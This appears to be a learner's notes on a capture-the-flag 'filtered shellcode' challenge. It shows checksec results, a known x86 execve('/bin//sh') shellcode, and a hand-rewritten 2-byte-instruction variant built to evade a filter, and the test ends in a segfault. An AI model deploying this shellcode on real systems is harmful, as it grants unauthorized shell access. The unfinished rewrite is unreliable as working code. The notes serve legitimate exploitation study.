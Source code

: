 # Lesson
- shellcode  
  - Linux system calls set arguments in registers and are invoked by a software interrupt using "int 0x80".  
    - https://www.mztn.org/lxasm/int80.html  
    - https://www.mztn.org/lxasm/asm04.html  
- system call  
  - https://os.pubpub.org/pub/blog-1/release/4  
- kernel  
- how to understand a logic  
  - (light) grisp the overview with gdb  
  - (heavy) read code manually  
- `pwntools`
  ```zsh
  pwndbg> hexdump $eax
  ```

# Memo
1. check  
```zsh
$ file fun
fun: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=325e35378982f451f374c7140c5249bb1c52ab18, not stripped
$
$ checksec --file=./fun --output=json | jq .
{
  "./fun": {
    "relro": "partial",
    "canary": "no",
    "nx": "no",
    "pie": "no",
    "rpath": "no",
    "runpath": "no",
    "symbols": "yes",
    "fortify_source": "no",
    "fortified": "0",
    "fortify-able": "0"
  }
}
```

2. ghidra  

3. create shellcode  
https://shell-storm.org/shellcode/files/shellcode-517.html  
```
"\x31\xc9"                  // xor    %ecx,%ecx
"\xf7\xe1"                  // mul    %ecx
"\x51"                      // push   %ecx
"\x68\x2f\x2f\x73\x68"      // push   $0x68732f2f
"\x68\x2f\x62\x69\x6e"      // push   $0x6e69622f
"\x89\xe3"                  // mov    %esp,%ebx
"\xb0\x0b"                  // mov    $0xb,%al
"\xcd\x80"                  // int    $0x80
```
2 byte  
https://www.mztn.org/lxasm64/amd09_shift.html  
```zsh
$ pwn asm -c 32 nop
90
$ pwn asm -c 32 "nop;nop"
9090
$ pwn asm -c 32 "push eax"
50
$ pwn asm -c 32 "push 43"
$ pwn asm -c 32 "xor eax eax"
$ pwn asm -c 32 "xor eax,eax"
$ pwn asm -c 32 "mov al, 0x68"
$ pwn asm -c 32 "shl eax"
$ pwn asm -c 32 "mov ax 0x6873"
$ pwn asm -c 32 "mov ax, 0x6873"
$ pwn asm -c 32 "shl eax, 12"
$ pwn asm -c 32 "shl eax, 1"
$ pwn asm -c 32 "shl eax, 2"
$ pwn asm -c 32 "mov al, 0x73"
$ pwn asm -c 32 "mov al, 0x2f"
$ pwn asm -c 32 "push eax"
$ pwn asm -c 32 "mov al, 0x6e"
$ pwn asm -c 32 "mov al, 0x69"
```
```zsh
"\x31\xc9"                  // xor    %ecx,%ecx
"\xf7\xe1"                  // mul    %ecx
"\x51"                      // push   %ecx

\x90                        // nop

// "\x68\x2f\x2f\x73\x68"      // push   $0x68732f2f

###
\x31\xc0 // xor eax,eax

\xb0\x68                  // mov al, 0x68
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax


\xb0\x73                  // mov al, 0x73
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax

\xb0\x2f                  // mov al, 0x2f
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax

\xb0\x2f                  // mov al, 0x2f

\x50                      // push eax
\x90                      // nop


// "\x68\x2f\x62\x69\x6e"      // push   $0x6e69622f

\x31\xc0 // xor eax,eax

\xb0\x6e                  // mov al, 0x6e
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax


\xb0\x69                  // mov al, 0x69
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax

\xb0\x62                  // mov al, 0x62
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax

\xb0\x2f                  // mov al, 0x2f

\x50                      // push eax
\x90                      // nop

###

"\x89\xe3"                  // mov    %esp,%ebx
"\xb0\x0b"                  // mov    $0xb,%al
"\xcd\x80"                  // int    $0x80
```

4. test shelcode
```zsh
$ nasm -f elf32 test.asm -o test.o
$ ld -s -o test test.o            
ld: i386 architecture of input file 'test.o' is incompatible with i386:x86-64 output
$ ld -m elf_i386 -s -o test test.o
$ ./test
zsh: segmentation fault  ./test
$ gdb ./test
```

# Ref
- https://cyb3rwhitesnake.medium.com/picoctf-filtered-shellcode-pwn-3d69010376df  
- https://sh0ebill.hatenablog.com/entry/2022/11/13/204614  
- https://zenn.dev/t0m3y/scraps/275ba361c564c8  
- https://www.mztn.org/lxasm/asm01.html  
- https://stackoverflow.com/questions/19200333/architecture-of-i386-input-file-is-incompatible-with-i386x86-64  
